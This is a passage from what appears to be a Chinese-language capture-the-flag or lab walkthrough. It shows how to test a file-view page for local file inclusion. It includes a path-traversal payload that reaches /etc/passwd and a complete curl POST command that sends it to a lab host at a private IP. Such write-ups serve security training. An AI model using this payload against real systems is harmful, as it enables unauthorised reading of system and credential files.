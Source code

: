 > `wget` 用 `--no-check-certificate` 来忽略证书问题;

### 本地文件包含利用(LFS)

查看刚刚得到的文件:

![2-11.png](2-11.png)

结合这个名字和提示, 很可能是文件包含漏洞, 尝试一下 payload: `../../../../../../../etc/passwd`:

```bash
curl -v -X POST -d "file=../../../../../../../etc/passwd" https://192.168.170.151:12322/file_view.php -k
```

> `-v`: 显示详细输出; `-X POST`: 使用 POST 传参; `-d "param=value"`: 指定参数和值。

![3-2.png](3-2.png)
